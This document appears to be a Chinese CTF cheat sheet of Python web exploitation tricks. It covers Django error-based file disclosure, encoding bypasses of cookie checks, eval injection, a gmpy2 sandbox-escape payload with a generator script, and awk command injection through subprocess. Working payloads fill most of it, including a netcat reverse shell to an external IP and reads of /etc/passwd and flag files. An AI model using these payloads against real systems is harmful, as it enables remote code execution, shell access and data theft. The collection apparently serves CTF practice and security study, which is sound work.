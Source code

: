 ## **python沙箱逃逸执行危险函数**
<https://blog.csdn.net/Jayjay___/article/details/132436072>

^
## **Django报错**
Django获取字符参数，如果传入的值是%80以上，则会报错，爆出路径等信息，如果是sqllite还会爆出sqllite数据库文件。
```
如：?url=%80
%81
%FF
```
如果一个后端是php是使用curl请求一个django程序，那么可以
```
?url=@一个本地文件路径
实现curl传文件
而django正好不能处理这个文件中的字符，就会报错回显这个文件的内容
实现文件读取
?url=@/opt/api/database.sqlite3
```



^
## **十六进制编码**
十六进制编码在Python字符串中是合法的，因为它是Python语言规范的一部分。当Python解释器读取到这样的编码时，它会将十六进制数转换成对应的字符。

## **八进制编码**
有时也用八进制编码绕过
```
user = request.cookies.get("user")
    if user.lower() == 'adm;n':

Cookie: user="adm\073n";
```

^
## **eval()函数利用**
python报错后显示了代码：eval(a + operator + b)
```
拼接传参b
/_calculate?number1=1&operator=-&number2=1,__import__ ('os').system('nc 120.46.41.173 9023 -e /bin/sh')
```

```
eval(__import__('os').popen('cat /etc/passwd').read());
eval(__import__('os').popen('cat /f*').read());
```

^
## **eval存在过滤**
eval(code)
要求code存在gmpy2数组中
```
for item in pattern.findall(code):#从code里把单词拿出来 
if not re.match(r'\d+$',item):#如果不是数字 
if item not in dir(gmpy2):#逐个和gmpy2库里的函数名比较
```
```
知道gmpy2以下可以命令执行：
gmpy2.__builtins__['eval']("__import__('os').popen('tac /flag').read()")

则需要对eval和__import__('os').popen('tac /flag').read()进行内含的数组中绕过
即：
gmpy2.__builtins__['erf'[0]+'div'[2]+'ai'[0]+'lcm'[0]]('c_div'[1]+'c_div'[1]+'ai'[1]+'agm'[2]+'cmp'[2]+'cos'[1]+'erf'[1]+'cot'[2]+'c_div'[1]+'c_div'[1]+"("+"'"+'cos'[1]+'cos'[2]+"'"+")"+"."+'cmp'[2]+'cos'[1]+'cmp'[2]+'erf'[0]+'jn'[1]+"("+"'"+'cot'[2]+'ai'[0]+'cmp'[0]+" "+"/"+'erf'[2]+'lcm'[0]+'ai'[0]+'agm'[1]+"'"+")"+"."+'erf'[1]+'erf'[0]+'ai'[0]+'add'[1]+"("+")")

```
生成脚本
```
s="__import__('os').popen('tac /flag').read()"

import gmpy2

payload="gmpy2.__builtins__['erf'[0]+'div'[2]+'ai'[0]+'lcm'[0]]("

for i in s:
        if i not in "/'(). ":
                temp_index=0
                temp_string='x'*20
                for j in dir(gmpy2):
                        if j.find(i)>=0:
                                if len(j)<len(temp_string):
                                        temp_string=j
                                        temp_index=j.find(i)
                payload+=f'\'{temp_string}\'[{temp_index}]+'
        else:
                payload+=f'\"{i}\"+'

payload=payload[:-1]+')'

print(payload)
```



^
## **subprocess运行外部命令**
使用了 Python 的 `subprocess` 模块来运行外部命令：
```
cmd: str = request.form.get('cmd')
param: str = request.form.get('param')

tVar = subprocess.run([cmd[:3], param, __file__], cwd=os.getcwd(), timeout=5)
```
1. `subprocess.run`: 这是 `subprocess` 模块中的一个函数，用于运行外部命令。
2. `cmd[:3]`: 这是一个列表，包含了外部命令的可执行文件和它的参数。`cmd[:3]` 表示取 `cmd` 列表的前三个元素，可能是外部命令的可执行文件和一些参数。
3. `param`: 这是一个变量，作为外部命令的参数。
4. `__file__`: 这是一个变量，表示当前脚本的文件名。
5. `cwd=os.getcwd()`: 这是 `subprocess.run` 函数的参数，指定了子进程的当前工作目录。`os.getcwd()` 返回当前工作目录。
6. `timeout=5`: 这是 `subprocess.run` 函数的参数，指定了运行外部命令的超时时间，单位是秒。在这里，设置为 5 秒。

cmd是执行的命令，param是执行的参数
可以直接
```
cmd=cat&param=flag.txt
```

python中有一个awk命令，可以执行系统命令，长度刚好为3
格式为：awk '{system("ls")}' 
通过抓包分析，传参方式为post，根据可控参数cmd和param
通过awk构造payload
payload:
```
cmd=awk&param={system("ls")}//查看当前路径下所有文件
cmd=awk&param={system("cat fla*")}//查看fLag文件的内容
```
